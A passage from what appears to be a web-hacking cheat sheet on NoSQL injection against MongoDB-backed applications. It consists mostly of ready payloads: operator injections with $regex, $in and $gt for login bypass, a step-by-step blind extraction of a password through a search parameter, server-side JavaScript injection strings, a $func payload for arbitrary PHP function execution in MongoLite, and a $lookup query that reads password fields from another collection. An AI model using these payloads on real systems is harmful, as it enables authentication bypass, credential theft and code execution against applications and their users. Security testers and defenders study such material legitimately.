 ```javascript
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}

```
Extract data with "in"
```javascript
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}

```

### SQL - Mongo
```html
/?search=admin' && this.password%00 --> Check if the field password exists
/?search=admin' && this.password && this.password.match(/.*/)%00 --> start matching password
/?search=admin' && this.password && this.password.match(/^a.*$/)%00
/?search=admin' && this.password && this.password.match(/^b.*$/)%00
/?search=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj78i3u$/)%00  Found

```

### SSJI
```javascript
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true

```

### PHP Arbitrary Function Execution
Using the $func operator of the [MongoLite](https://github.com/agentejo/cockpit/tree/0.11.1/lib/MongoLite) library (used by default) it might be possible to execute and arbitrary function as in [this report](https://swarm.ptsecurity.com/rce-cockpit-cms/).

```javascript
"user":{"$func": "var_dump"}

```
![123](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/1044d5ff-11cf-4808-8c70-94382fbf55ae)

### Get info from different collection
It's possible to use [$lookup](https://www.mongodb.com/docs/manual/reference/operator/aggregation/lookup/) to get info from a different collection. In the following example, we are reading from a different collection called users and getting the results of all the entries with a password matching a wildcard.
```javascript
[
  {
    "$lookup":{
      "from": "users",
      "as":"resultado","pipeline": [
        {
          "$match":{
            "password":{
              "$regex":"^.*"
            }
          }
        }
      ]
    }
  }
]
```